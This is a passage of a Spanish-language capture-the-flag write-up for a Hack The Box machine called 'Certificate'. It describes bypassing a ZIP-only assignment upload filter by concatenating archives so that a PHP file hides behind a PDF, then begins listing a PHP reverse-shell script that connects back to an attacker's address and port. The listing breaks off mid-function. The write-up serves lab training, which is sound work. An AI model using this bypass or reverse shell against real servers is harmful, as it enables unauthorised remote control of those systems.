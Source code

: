 ```
URL = http://certificate.htb/course-details.php?id=1&action=enroll
```

Concatena `2` parametros diferentes, ya tenemos varias cosas interesantes por las que investigar mas.

## Evasive ZIP Concatenation

Una vez que nos inscribamos en el curso, si bajamos un poco veremos varias opciones, entre ellas `Watch` y otra interesante `Submit`, dandole a esta ultima veremos en la `URL` esto:

```
URL = http://certificate.htb/upload.php?s_id=5
```

Vemos que hay un `upload.php`, la cosa ya se va poniendo interesante, tambien nos comentan las normas de subida.

```
1. Please select the assignment file you want to upload (the file will be reviewed by the course instructor)
2. We accept only the following file types: .pdf .docx .pptx .xlsx
3. You include the assignment file in .zip archive file to reduce it's size
```

Vemos bastante interesante el que podamos subir un archivo comprimido en `ZIP` podriamos probar a realizar un `bypass` de este mismo metiendo varios archivos concatenados, entre ellos que sean `PDFs` y despues un `PHP`, ya que generalmente las herramientas solo leen el ultimo archivo dentro del comprimido, por lo que dejaremos uno "legal" que sea un `PDF` en la ultima posicion y antes un archivo `PHP` con alguna `reverse shell` o algo parecido.

### Escalate user xamppuser

URL = [Info de la tecnica de Bypass ZIP](https://isc.sans.edu/diary/31426) / [Info2 de la tecnica Bypass ZIP](https://www.fortinet.com/products/fortimail-workspace-security)

> shell.php

```php
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.6
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer = 1024;  // read/write buffer size
    private $clen   = 0;     // command length
    private $error  = false; // stream read/write error
    private $sdump  = true;  // script's dump
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        $os = PHP_OS;
        if (stripos($os, 'LINUX') !== false || stripos($os, 'DARWIN') !== false) {
```